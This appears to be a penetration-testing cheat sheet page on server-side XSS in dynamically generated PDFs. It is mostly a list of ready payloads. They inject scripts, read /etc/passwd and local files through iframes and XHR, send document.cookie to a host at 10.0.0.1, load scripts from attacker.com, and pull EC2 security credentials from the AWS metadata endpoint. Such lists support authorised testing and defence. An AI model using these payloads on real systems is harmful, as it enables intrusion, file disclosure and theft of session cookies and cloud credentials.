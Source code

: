```yaml
---
title: XSS with Dynamic PDF
description: If the PDF file, which is created somewhere in the website, that is reflected our payloads, we can insert malicious code.
tags:
    - XSS
    - Web
refs:
    - https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
date: 2023-04-01
draft: false
---
```


## Basic

<div data-pagefind-ignore>

```txt
<img src='x' onerror="document.write('test')">
<script>document.write('test')</script>

"><h1>XSS</h1>
```

</div>

<br />

## Path Disclosure

<div data-pagefind-ignore>

```txt
<img src='x' onerror="document.write(JSON.stringify(window.location))">
<script>document.write('<iframe src=\"' + window.location.href + '\"></iframe>')</script>
```

</div>

<br />

## LFI/RFI

<div data-pagefind-ignore>

```txt
<iframe src="file:///etc/passwd"></iframe>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
<iframe src=file:///var/www/html/index.php width=1000px height=1000px></iframe>
<iframe src="http://localhost:3000/index.html"></iframe>
<iframe src="http://localhost/server-status" height="1000" width="1000"></iframe>

<img src='x' onerror="document.write('<iframe src=file:///etc/passwd></iframe>')">
```

</div>

<br />

## LFI/RFI (XHR request)

<div data-pagefind-ignore>

```js
<script>
	x = new XMLHttpRequest();
	x.onload = function() {
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

</div>

<br />

## Cookie Hijacking

<div data-pagefind-ignore>

```txt
<img src=x onerror="location.href='http://10.0.0.1/?cookie='+ document.cookie">
```

</div>

<br />

## External Scripts

<div data-pagefind-ignore>

```txt
<script src="http://attacker.com/test.js"></script>

<img src='x' onerror="document.write('<script src=\"http://10.0.0.1/test.js\"></script>')" />
```

</div>

<br />

## AWS Instances

<div data-pagefind-ignore>

```bash
<iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height=1000px width=1000px></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance" height=1000px width=1000px></iframe>
```

</div>

## wkhtmltopdf

If the website uses “wkhtmltopdf”, please also refer to [this page](wkhtmltopdf-ssrf.md).
